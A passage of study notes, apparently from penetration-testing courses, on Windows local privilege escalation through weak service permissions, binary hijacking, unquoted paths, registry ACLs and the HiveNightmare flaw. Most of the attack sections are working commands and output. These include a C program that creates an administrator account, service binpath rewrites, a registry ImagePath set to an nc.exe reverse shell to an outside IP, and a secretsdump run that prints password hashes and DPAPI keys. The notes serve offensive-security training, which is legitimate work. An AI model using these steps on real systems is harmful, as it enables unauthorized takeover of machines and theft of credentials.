PRIVILEGES INFORMATION
----------------------
Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Disabled
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Disabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Disabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Disabled
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Disabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Disabled
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
SeTimeZonePrivilege                       Change the time zone                                               Disabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Disabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Disabled
```

This is successful, and you received an elevated shell that shows your privileges are available and can be enabled if needed.

### Weak Permissions

#### Permissive File System ACLs

You can use [SharpUp](https://github.com/GhostPack/SharpUp/) from the GhostPack suite of tools to check for service binaries suffering from weak ACLs.

```powershell
PS C:\htb> .\SharpUp.exe audit

=== SharpUp: Running Privilege Escalation Checks ===


=== Modifiable Service Binaries ===

  Name             : SecurityService
  DisplayName      : PC Security Management Service
  Description      : Responsible for managing PC security
  State            : Stopped
  StartMode        : Auto
  PathName         : "C:\Program Files (x86)\PCProtect\SecurityService.exe"
  
  <SNIP>
  
```

The tool identifies the PC Security Management Service, which executes the SecurityService.exe binary when started.

Using icacls you can verify the vulnerability and see that the EVERYONE and BUILTIN\Users groups have been granted full permissions to the directory, and therefore any unprivileged system user can manipulate the directory and its contents.

```powershell
PS C:\htb> icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"

C:\Program Files (x86)\PCProtect\SecurityService.exe BUILTIN\Users:(I)(F)
                                                     Everyone:(I)(F)
                                                     NT AUTHORITY\SYSTEM:(I)(F)
                                                     BUILTIN\Administrators:(I)(F)
                                                     APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                                     APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

This service is also startable by unprivileged users, so you can make a backup of the original binary and replace it with a malicious binary generated with msfvenom. It can give you a revshell as SYSTEM, or add a local admin user and give you full administrative control over the machine.

```
C:\htb> cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
C:\htb> sc start SecurityService
```

#### Weak Service Permissions

Check the SharpUp output again for any modifiable services. You see the WindscribeService is potentially misconfigured.

```
C:\htb> SharpUp.exe audit
 
=== SharpUp: Running Privilege Escalation Checks ===
 
 
=== Modifiable Services ===
 
  Name             : WindscribeService
  DisplayName      : WindscribeService
  Description      : Manages the firewall and controls the VPN tunnel
  State            : Running
  StartMode        : Auto
  PathName         : "C:\Program Files (x86)\Windscribe\WindscribeService.exe"
```

Next, you'll use AccessChk from the Sysinternals suite to enumerate permissions on the service. The flags you use, in order are `-q` (_omit banner_), `-u` (_suppress errors_), `-v` (_verbose_), `-c` (_specify name of a Windows service_), and `-w` (_show only object that have write access_). Here you can see that all Authenticated Users have SERVICE_ALL_ACCESS rights over the service, which means full read/write control over it.

```
C:\htb> accesschk.exe /accepteula -quvcw WindscribeService
 
Accesschk v6.13 - Reports effective permissions for securable objects
Copyright ⌐ 2006-2020 Mark Russinovich
Sysinternals - www.sysinternals.com
 
WindscribeService
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        SERVICE_ALL_ACCESS
  RW BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  RW NT AUTHORITY\Authenticated Users
        SERVICE_ALL_ACCESS
```

Checking the local administrators group confirms that your user htb-student is not a member.

```
C:\htb> net localgroup administrators

Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain
 
Members
 
-------------------------------------------------------------------------------
Administrator
mrb3n
The command completed successfully.
```

You can use your permissions to change the binary path maliciously. Change it to add your user to the local administrator group. You could set the binary path to run any command or executable or your choosing.

```
C:\htb> sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"

[SC] ChangeServiceConfig SUCCESS
```

Next, you must stop the service, so the new binpath command will run the next time it is started.

```
C:\htb> sc stop WindscribeService
 
SERVICE_NAME: WindscribeService
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x4
        WAIT_HINT          : 0x0
```

Since you have full control over the service, you can start it again, and the command you placed in the binpath will run even though an error message is returned. The service fails to start because the binpath is not pointing to the actual service executable. Still, the executable will run when the system attempts to start the service before erroring out and stopping the service again, executing whatever command you specify in the binpath.

```
C:\htb> sc start WindscribeService

[SC] StartService FAILED 1053:
 
The service did not respond to the start or control request in a timely fashion.
```

Finally, check to confirm that your user was added to the local administrators group.

```
C:\htb> net localgroup administrators

Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain
 
Members
 
-------------------------------------------------------------------------------
Administrator
htb-student
mrb3n
The command completed successfully.
```

Another example is the Windows [Update Orchestrator Service](https://docs.microsoft.com/en-us/windows/deployment/update/how-windows-update-works) (_UvoSvc_), which is responsible for downloading and installing OS updates. It is considered an essential Windows service and cannot be removed. Since it is responsible for making changes to the OS through the installation of security and feature updates, it runs as the all-powerful NT AUTHORITY\SYSTEM account. Before installing the security patch relating to [CVE-2019-1322](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-1322), it was possible to elevate privileges from a service account to SYSTEM. This was due to weak permissions, which allowed service accounts to modify the service binary path and start/stop the service.

#### Service Binary Hijacking

Each Windows service has an associated binary file. These binary files are executed when the service is started or transitioned into a running state.

Consider a scenario in which a software dev creates a program and installs an application as a Windows service. During the installation, the dev does not secure the permissions of the program, allowing full Read and Write access to all members of the Users group. As a result, a lower-privileged user could replace the program with a malicious one. To execute the replaced binary, the user can restart the service, or in case the service is configured to start automatically, reboot the machine. Once the service is restarted, the malicious binary will be executed with the privileges of the service, such as LocalSystem.

##### Enum

To get a list of all installed Windows services, you can choose various methods such as the GUI snap-in `services.msc`, the `Get-Service` cmdlet, or the `Get-CimInstance` cmdlet.

> [!Info]
> When using a network logon such as WinRM or a bind shell, `Get-CimInstance` and `Get-Service` will result in a "permission denied" error when querying for services with a non-administrative user. Using an interactive logon such as RDP solves this problem.

```powershell
PS C:\Users\dave> Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

Name                      State   PathName
----                      -----   --------
Apache2.4                 Running "C:\xampp\apache\bin\httpd.exe" -k runservice
Appinfo                   Running C:\Windows\system32\svchost.exe -k netsvcs -p
AppXSvc                   Running C:\Windows\system32\svchost.exe -k wsappx -p
AudioEndpointBuilder      Running C:\Windows\System32\svchost.exe -k LocalSystemNetworkRestricted -p
Audiosrv                  Running C:\Windows\System32\svchost.exe -k LocalServiceNetworkRestricted -p
BFE                       Running C:\Windows\system32\svchost.exe -k LocalServiceNoNetworkFirewall -p
BITS                      Running C:\Windows\System32\svchost.exe -k netsvcs -p
BrokerInfrastructure      Running C:\Windows\system32\svchost.exe -k DcomLaunch -p
...
mysql                     Running C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql
...
```

Based on the output, the two XAMPP services Apache2.4 and mysql stand out as the binaries are located in `C:\xampp`  directory instead of `C:\Windows\System32`. This means the service is user-installed and the software dev is in charge of the directory structure as well as permissions of the software. These circumstances make it potentially prone to service binary hijacking.

##### Identifying Writable Service Binaries

Next, enumerate the permissions on both service binaries. You can choose between the traditional `icacls` Windows utility or the PowerShell cmdlet `Get-ACL`.

The icacls utility outputs the corresponding principals and their permission mask.

| Mask | Permission              |
| ---- | ----------------------- |
| F    | Full access             |
| M    | Modify access           |
| RX   | Read and execute access |
| R    | Read-only access        |
| W    | Write-only access       |

```powershell
PS C:\Users\dave> icacls "C:\xampp\apache\bin\httpd.exe"
C:\xampp\apache\bin\httpd.exe BUILTIN\Administrators:(F)
                              NT AUTHORITY\SYSTEM:(F)
                              BUILTIN\Users:(RX)
                              NT AUTHORITY\Authenticated Users:(RX)

Successfully processed 1 files; Failed processing 0 files
```

As a member of the built-in group `Users`, dave only has `RX` permissions on `httpd.exe`, meaning you cannot replace the file with a malicious binary.

```powershell
PS C:\Users\dave> icacls "C:\xampp\mysql\bin\mysqld.exe"
C:\xampp\mysql\bin\mysqld.exe NT AUTHORITY\SYSTEM:(F)
                              BUILTIN\Administrators:(F)
                              BUILTIN\Users:(F)

Successfully processed 1 files; Failed processing 0 files
```

The output shows that members of the `Users` group have the full-access (`F`) permission, allowing you to write to and modify the binary and therefore, replace it. Due to the missing indicator `I` preceding this permission, you know that it was set on purpose and not inherited by the parent directory. Administrators often set full-access permissions when they configure a service and are not entirely sure about the required permissions. Setting it to full-access avoids most permissions problems, but creates a security risk.

##### Replacing the Service Binary

Create a small binary, which you'll use to replace the original `mysqld.exe`. The following C code will create a user named dave2 and add that user to the local Administrators group using the `system` function. The cross-compiled version of this code will serve as your malicious binary. Save it as `adduser.c`.

```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```

Next, you'll cross-compile the code with `mingw-64`. Since you know that the target machine is 64-bit, you'll cross-compile the C code to a 64-bit application with `x86_64-w64-mingw32.gcc`. In addition, you use `adduser.exe` as argument for `-o` to specify the name of the compiled exe.

```bash
kali@kali:~$ x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

Once `adduser.exe` is cross-compiled, you can transfer it to your target and replace the original `mysqld.exe` binary with your malicious copy.

```powershell
PS C:\Users\dave> iwr -uri http://192.168.48.3/adduser.exe -Outfile adduser.exe  

PS C:\Users\dave> move C:\xampp\mysql\bin\mysqld.exe mysqld.exe

PS C:\Users\dave> move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe
```

##### Restarting the Service

To execute the binary through the service, you need to restart it. You can use the `net stop` command to stop the service.

```powershell
PS C:\Users\dave> net stop mysql
System error 5 has occurred.

Access is denied.
```

Since you don't have permissions to manually restart the service, you must consider another approach. If the service Startup Type is set to `Automatic`, you may be able to restart the service by rebooting the machine.

Check the Startup Type of the mysql service with the help of the `Get-CimInstance` cmdlet by selecting `Name` and `StartMode` as well as filter for the string "mysql" with `Where-Object`:

```powershell
PS C:\Users\dave> Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}

Name  StartMode
----  ---------
mysql Auto
```

The output shows that the service is set to `Auto`, meaning it will start automatically after a reboot.

##### Reboot-Based Execution

To issue a reboot, your user needs to have the privilege `SeShutDownPrivilege` assigned. You can use `whoami /priv` to get a list of all privileges.

```powershell
PS C:\Users\dave> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeSecurityPrivilege           Manage auditing and security log     Disabled
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

The user has the privilege in question and therefore, you should be able to initiate a system shutdown or reboot. The `Disabled` state only indicates if the privilege is currently enabled for the running process. In your case, it means that `whoami` has not requested and is not currently using the `SeShutDownPrivilege`privilege.

If the `SeShutDownPrivilege` privilege was not present, you would have to wait for the victim to manually start the service, which would be much less convenient.

You can issue a reboot with `shutdown` and the arguments `/r` (_reboot instead of shutdown_) and `/t 0` (_in zero seconds_).

```powershell
PS C:\Users\dave> shutdown /r /t 0 
```

##### Verifying PrivEsc

Once the reboot is complete, you connect again as dave via RDP and open a PowerShell window. Because the issued reboot and the Startup Type `auto`, the service should have executed the exe file you placed to replace the original mysql service binary.

```powershell
PS C:\Users\dave> Get-LocalGroupMember administrators

ObjectClass Name                      PrincipalSource
----------- ----                      ---------------
User        CLIENTWK220\Administrator Local
User        CLIENTWK220\BackupAdmin   Local
User        CLIENTWK220\dave2         Local
User        CLIENTWK220\daveadmin     Local
User        CLIENTWK220\offsec        Local
```

To restore the original state of the service, you have to delete your binary `mysqld.exe`, restore the backed up original binary, and restart the system.

##### PowerUp.ps1

... is an automated privilege escalation enumeration tool that identifies common Windows misconfigurations such as writable service binaries, weak service permissions, unquoted service paths, and vulnerable registry ACLs.

After importing it, you can use `Get-ModifiableServiceFile`. This function displays services the current user can modify, such as the service binary or config files.

```powershell
PS C:\Users\dave> iwr -uri http://192.168.48.3/PowerUp.ps1 -Outfile PowerUp.ps1

PS C:\Users\dave> powershell -ep bypass
...
PS C:\Users\dave>  . .\PowerUp.ps1

PS C:\Users\dave> Get-ModifiableServiceFile

...

ServiceName                     : mysql
Path                            : C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql
ModifiableFile                  : C:\xampp\mysql\bin\mysqld.exe
ModifiableFilePermissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
ModifiableFileIdentityReference : BUILTIN\Users
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'mysql'
CanRestart                      : False
```

The output shows you that PowerUp identified mysql to be vulnerable. In addition, it provides information about the file path, the principal, and if you have permissions to restart the service.

PowerUp also provides you an Abuse-Function, which is a built-in function to replace the binary and, if you have sufficient permissions, restart it. The default behavior is to create a new local user called "john" with the password "Password123!" and add it to the local Administrators group. Because you don't have enough permissions to restart the service, you still need to reboot the machine.

However, if you use the Abuse-Function `Install-ServiceBinary` with the service name, you receive an error.

```powershell
PS C:\Users\dave> Install-ServiceBinary -Name 'mysql'

Service binary 'C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql' for service mysql not
modifiable by the current user.
At C:\Users\dave\PowerUp.ps1:2178 char:13
+             throw "Service binary '$($ServiceDetails.PathName)' for s ...
+             ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : OperationStopped: (Service binary ...e current user.:String) [], RuntimeException
    + FullyQualifiedErrorId : Service binary 'C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini
   mysql' for service mysql not modifiable by the current user.
```

The output states that the service binary file is not modifiable by the current user. However, you already established that you have full-access permissions on the service binary and demonstrated that you could replace the file manually.

Reviewing the code of PowerUp and checking the outputs of the commands used in `Get-ModifiableServiceFile`, you identify that `Get-ModifiablePath` is used to return modifiable paths for the current user. However, for you, it provides an empty result leading to the above error.

Examine this behavior to understand why Abuse-Function is throwing an error. First, you'll try the service path without any arguments for `Get-ModifiablePath`. Then, you'll add another argument to check if the function still provides the correct output. Finally, you'll use an argument with a path inside.

```powershell
PS C:\Users\dave> $ModifiableFiles = echo 'C:\xampp\mysql\bin\mysqld.exe' | Get-ModifiablePath -Literal

PS C:\Users\dave> $ModifiableFiles

ModifiablePath                IdentityReference Permissions
--------------                ----------------- -----------
C:\xampp\mysql\bin\mysqld.exe BUILTIN\Users     {WriteOwner, Delete, WriteAttributes, Synchronize...}

PS C:\Users\dave> $ModifiableFiles = echo 'C:\xampp\mysql\bin\mysqld.exe argument' | Get-ModifiablePath -Literal

PS C:\Users\dave> $ModifiableFiles

ModifiablePath     IdentityReference                Permissions
--------------     -----------------                -----------
C:\xampp\mysql\bin NT AUTHORITY\Authenticated Users {Delete, WriteAttributes, Synchronize, ReadControl...}
C:\xampp\mysql\bin NT AUTHORITY\Authenticated Users {Delete, GenericWrite, GenericExecute, GenericRead}

PS C:\Users\dave> $ModifiableFiles = echo 'C:\xampp\mysql\bin\mysqld.exe argument -conf=C:\test\path' | Get-ModifiablePath -Literal 

PS C:\Users\dave> $ModifiableFiles
```

The output shows that while the service binary with or without another argument works as expected, a path as an argument creates an empty result. Because the mysql service specifies the argument `C:\xampp\mysql\bin\my.ini` for `defaults-file` in the service binary path. , the Abuse-Function throws an error. In a situation like this, you should use the result of the identified vulnerable service file and do a manual exploitation.

##### False Positives / Edge Cases

#### Weak Service Permissions - Cleanup

You can clean up after yourself and ensure that the service is working correctly by stopping it and resetting the binary path back to the original service executable.

```
C:\htb> sc config WindScribeService binpath="c:\Program Files (x86)\Windscribe\WindscribeService.exe"

[SC] ChangeServiceConfig SUCCESS
```

If all goes to plan, you can start the service again without an issue.

```
C:\htb> sc start WindScribeService
 
SERVICE_NAME: WindScribeService
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 1716
        FLAGS              :
```

Querying the service will show it running again as intended.

```
C:\htb> sc query WindScribeService
 
SERVICE_NAME: WindScribeService
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  Running
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
    
```

#### Unquoted Service Path

When a service is installed, the registry configuration specifies a path to the binary that should be executed on service start. If this binary is not encapsulated within quotes, Windows will attempt to locate the binary in different folders. Take the example binary path below.

```
C:\Program Files (x86)\System Explorer\service\SystemExplorerService64.exe
```

Windows will decide the execution method of a program based on its file extension, so it's not necessary to specify it. Windows will attempt to load the following potential executables in order on service start, with a .exe being implied:

- `C:\Program`
- `C:\Program Files`
- `C:\Program Files (x86)\System`
- `C:\Program Files (x86)\System Explorer\service\SystemExplorerService64`

```
C:\htb> sc qc SystemExplorerHelpService

[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: SystemExplorerHelpService
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\Program Files (x86)\System Explorer\service\SystemExplorerService64.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : System Explorer Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

If you can create the following files, you would be able to hijack the service binary and gain command execution in the context of the service, in this case, NT AUTHORITY\SYSTEM.

- `C:\Program.exe\`
- `C:\Program Files (x86)\System.exe`

However, creating files in the root of the drive or the program files folder requires administrative privileges. Even if the system had been misconfigured to allow this, the user probably wouldn't be able to restart the service and would be reliant on a system restart to escalate privileges. Although it's not uncommon to find applications with unquoted service paths, it isn't often exploitable.

You can identify unquoted service binary paths using the command below.

```
C:\htb> wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
GVFS.Service                                                                        GVFS.Service                              C:\Program Files\GVFS\GVFS.Service.exe                                                 Auto
System Explorer Service                                                             SystemExplorerHelpService                 C:\Program Files (x86)\System Explorer\service\SystemExplorerService64.exe             Auto
WindscribeService                                                                   WindscribeService                         C:\Program Files (x86)\Windscribe\WindscribeService.exe                                  Auto
```

The next steps would be:

- Using `icalcs` on the identified paths where you _could_ place your malicious exe to find out if you have enough privileges.
- Stop the service.
- Put the file in the directory you have write-privileges.
- Restart the service.

##### PowerUp.ps1

You can also use `PowerUp.ps1`:

**Transferring `PowerUp.ps1` and identifying unquoted services**:

```powershell
PS C:\Users\steve> iwr http://192.168.48.3/PowerUp.ps1 -Outfile PowerUp.ps1

PS C:\Users\steve> powershell -ep bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Users\steve> . .\PowerUp.ps1

PS C:\Users\steve> Get-UnquotedService

ServiceName    : GammaService
Path           : C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=NT AUTHORITY\Authenticated Users;
                 Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'GammaService' -Path <HijackPath>
CanRestart     : True
Name           : GammaService

ServiceName    : GammaService
Path           : C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=NT AUTHORITY\Authenticated Users;
                 Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'GammaService' -Path <HijackPath>
CanRestart     : True
Name           : GammaService
...
```

**Using the Abuse-Function**:

```powershell
PS C:\Users\steve> Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"

ServiceName  Path                                         Command
-----------  ----                                         -------
GammaService C:\Program Files\Enterprise Apps\Current.exe net user john Password123! /add && timeout /t 5 && net loc...

PS C:\Users\steve> Restart-Service GammaService
WARNING: Waiting for service 'GammaService (GammaService)' to start...
Restart-Service : Failed to start service 'GammaService (GammaService)'.
At line:1 char:1
+ Restart-Service GammaService
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : OpenError: (System.ServiceProcess.ServiceController:ServiceController) [Restart-Service]
   , ServiceCommandException
    + FullyQualifiedErrorId : StartServiceFailed,Microsoft.PowerShell.Commands.RestartServiceCommand

PS C:\Users\steve> net user

User accounts for \\CLIENTWK220

-------------------------------------------------------------------------------
Administrator            BackupAdmin              dave
dave2                    daveadmin                DefaultAccount
Guest                    john            offsec
steve                    WDAGUtilityAccount

The command completed successfully.

PS C:\Users\steve> net localgroup administrators
...
john
...
```

#### Permissive Registry ACLs

It is also worth searching for weak service ACLs in the Windows Registry. You can to this using `accesschk`.

```
C:\htb> accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services

Accesschk v6.13 - Reports effective permissions for securable objects
Copyright ⌐ 2006-2020 Mark Russinovich
Sysinternals - www.sysinternals.com

RW HKLM\System\CurrentControlSet\services\ModelManagerService
        KEY_ALL_ACCESS

<SNIP> 
```

You can abuse this using the PowerShell cmdlet `Set-ItemProperty` to change the ImagePath value, using a command such as:

```powershell
PS C:\htb> Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"
```

#### Modifiable Registry Autorun Binary

You can use WMIC to see what programs run at system startup. Suppose you have write permissions to the registry for a given binary or can overwrite a binary listed. In that case, you may be able to escalate privileges to another user the next time that the user logs in.

```powershell
PS C:\htb> Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl

Name     : OneDrive
command  : "C:\Users\mrb3n\AppData\Local\Microsoft\OneDrive\OneDrive.exe" /background
Location : HKU\S-1-5-21-2374636737-2633833024-1808968233-1001\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
User     : WINLPE-WS01\mrb3n

Name     : Windscribe
command  : "C:\Program Files (x86)\Windscribe\Windscribe.exe" -os_restart
Location : HKU\S-1-5-21-2374636737-2633833024-1808968233-1001\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
User     : WINLPE-WS01\mrb3n

Name     : SecurityHealth
command  : %windir%\system32\SecurityHealthSystray.exe
Location : HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
User     : Public

Name     : VMware User Process
command  : "C:\Program Files\VMware\VMware Tools\vmtoolsd.exe" -n vmusr
Location : HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
User     : Public

Name     : VMware VM3DService Process
command  : "C:\WINDOWS\system32\vm3dservice.exe" -u
Location : HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
User     : Public
```

This [post](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries.html) and [this site](https://www.microsoftpressstore.com/articles/article.aspx?p=2762082&seqNum=2) detail many potential autorun locations on Windows systems.

### Kernel Exploits

It's a big challenge to ensure that all user desktops and servers are updated, and 100% compliance for all computers with security patches is likely not an achievable goal.

This [site](https://msrc.microsoft.com/update-guide/vulnerability) is handy for searching out detailed information about Microsoft security vulns.

#### Notable Vulns

Some notable vulns are:

- MS08-067
- MS17-010 (_Eternal Blue_)
- ALPC Task Scheduler 0-Day
- CVE-2021-36934 (_HiveNightmare, aka SeriousSam_)
- CVE-2021-1675/CVE-2021-34527 (_PrintNightmare_)

##### CVE-2021-36934 - HiveNightmare, aka SeriousSam

... is a Windows 10 flaw that results in ANY user having rights to read the Windows registry and access sensitive information regardless of privilege level. More information about this flaw can be found [here](https://doublepulsar.com/hivenightmare-aka-serioussam-anybody-can-read-the-registry-in-windows-10-7a871c465fa5) and [this](https://github.com/GossiTheDog/HiveNightmare/tree/master/Release) exploit binary can be used to create copies of the SAM, SYSTEM, and SECURITY files to your working directory. This [script](https://github.com/GossiTheDog/HiveNightmare/blob/master/Mitigation.ps1) can be use to detect the flaw and also fix the ACL issue.

You can check for this vuln using `icacls` to check permissions on the SAM file. In your case, you have a vulnerable version as the file is readable by the BUILTIN\Users group.

```
C:\htb> icacls c:\Windows\System32\config\SAM

C:\Windows\System32\config\SAM BUILTIN\Administrators:(I)(F)
                               NT AUTHORITY\SYSTEM:(I)(F)
                               BUILTIN\Users:(I)(RX)
                               APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                               APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

Successful exploitation also requires the presence of one or more shadow copies. Most Windows 10 systems will have System Protection enabled by default which will create periodic backups, including the shadow copy necessary to leverage this flaw.

This [PoC](https://github.com/GossiTheDog/HiveNightmare) can be used to perform the attack, creating copies of the aforementioned registry hives.

```powershell
PS C:\Users\htb-student\Desktop> .\HiveNightmare.exe

HiveNightmare v0.6 - dump registry hives as non-admin users

Specify maximum number of shadows to inspect with parameter if wanted, default is 15.

Running...

Newer file found: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM

Success: SAM hive from 2021-08-07 written out to current working directory as SAM-2021-08-07

Newer file found: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY

Success: SECURITY hive from 2021-08-07 written out to current working directory as SECURITY-2021-08-07

Newer file found: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM

Success: SYSTEM hive from 2021-08-07 written out to current working directory as SYSTEM-2021-08-07


Assuming no errors above, you should be able to find hive dump files in current working directory.
```

These copies can then be transferred back to the attack host, where impacket-secretsdump is used to extract the hashes:

```bash
d41y@htb[/htb]$ impacket-secretsdump -sam SAM-2021-08-07 -system SYSTEM-2021-08-07 -security SECURITY-2021-08-07 local

Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Target system bootKey: 0xebb2121de07ed08fc7dc58aa773b23d6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:c93428723187f868ae2f99d4fa66dceb:::
mrb3n:1001:aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54:::
htb-student:1002:aad3b435b51404eeaad3b435b51404ee:3c0e5d303ec84884ad5c3b7876a06ea6:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x3c7b7e66890fb2181a74bb56ab12195f248e9461
dpapi_userkey:0xc3e6491e75d7cffe8efd40df94d83cba51832a56
[*] NL$KM 
 0000   45 C5 B2 32 29 8B 05 B8  E7 E7 E0 4B 2C 14 83 02   E..2)......K,...
 0010   CE 2F E7 D9 B8 E0 F0 F8  20 C8 E4 70 DD D1 7F 4F   ./...... ..p...O
 0020   42 2C E6 9E AF 57 74 01  09 88 B3 78 17 3F 88 54   B,...Wt....x.?.T
 0030   52 8F 8D 9C 06 36 C0 24  43 B9 D8 0F 35 88 B9 60   R....6.$C...5..`
NL$KM:45c5b232298b05b8e7e7e04b2c148302ce2fe7d9b8e0f0f820c8e470ddd17f4f422ce69eaf5774010988b378173f8854528f8d9c0636c02443b9d80f3588b960
```

##### CVE-2021-1675/CVE-2021-34527 - PrintNightmare

